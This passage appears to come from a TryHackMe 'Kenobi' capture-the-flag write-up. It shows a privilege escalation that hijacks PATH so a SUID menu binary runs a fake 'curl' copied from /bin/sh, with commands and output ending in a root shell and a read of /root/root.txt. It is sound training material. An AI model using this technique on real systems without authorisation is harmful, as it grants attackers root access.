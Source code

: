 ```
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
[...]
```

### Use Path Variable Manipulation to get the root flag.

```
kenobi@kenobi:~$ strings /usr/bin/menu
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
[...]
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice
[...]
```

The binary is running hardcoded commands without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname). As this file runs as the root users privileges, we can manipulate our path gain a root shell.

```
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# whoami
root
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# cat /root/root.txt
[censored]
```

## Cleanup

```
kali@kali:~/THM/kenobi$ sudo umount /mnt/kenobiNFS/ 
kali@kali:~/THM/kenobi$ sudo rmdir /mnt/kenobiNFS/
```
